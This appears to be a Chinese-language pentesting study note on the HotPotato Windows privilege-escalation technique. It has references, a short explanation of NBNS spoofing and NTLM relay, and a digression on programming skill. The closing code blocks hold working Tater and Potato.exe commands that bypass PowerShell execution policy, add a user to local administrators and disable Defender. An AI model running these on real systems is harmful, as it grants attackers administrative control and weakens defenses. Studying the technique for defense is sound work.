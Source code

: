 ```yaml
---
title: HotPotato提权
categories:
- windows
tags:
- windows
---
```

HotPotato提权
===
参考资料：
- [https://pentestlab.blog/2017/04/13/hot-potato/](https://pentestlab.blog/2017/04/13/hot-potato/)
- [hot-potato漏洞发现者的博客](https://foxglovesecurity.com/2016/01/16/hot-potato/)
- [https://ivanitlearning.wordpress.com/2019/07/20/potato-privilege-escalation-exploits-for-windows/comment-page-1/](https://ivanitlearning.wordpress.com/2019/07/20/potato-privilege-escalation-exploits-for-windows/comment-page-1/)
- [https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

视频教程地址：[https://www.bilibili.com/video/av91087772](https://www.bilibili.com/video/av91087772)

该技术由两个已知的windows问题组成。1. NBNS欺骗 2.NTLM中继与伪造的WPAD代理服务器的实现

NBNS是广播UDP协议，用于Windows环境中常用的名称解析。

通过与SMB相同的协议进行的NTLM身份验证已由Microsoft修补，但是该技术使用HTTP到SMB身份验证以创建高特权服务，因为HTTP请求可能来自诸如Windows更新之类的高特权服务。 由于流量包含NTLM凭据，并且正在通过伪造的代理服务器传递，因此可以对其进行捕获并将其传递给本地SMB侦听器，以创建可以作为SYSTEM执行任何命令的服务。

引申出一个话题，编程能力到底重要不重要？对于渗透测试，coding是一个什么样的地位？黑客就是程序员吗？

水平高超的黑客必定掌握娴熟的编码能力，使用程序来达到自己的目的。

世界上的编程语言几十种上百种，是个人都不能完全掌握。只要完全掌握一种编程语言，加上一种脚本语言就够了。

掌握的越多越好？ 
二十一世纪是分工与合作的世纪，掌握的多不代表就精通。不如一个人掌握一个方面，然后与其他人合作。

```
#windows 7运行：
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1

Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

---
#windows 10运行：
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 2 -Command "net localgroup administrators user /add"
```
net user user

---
```
Potato.exe -ip 192.168.1.105 -cmd "C:\\Windows\\System32\\cmd.exe -k net localgroup Administrators user /add" -disable_exhaust true -disable_defender true

运行失败
```

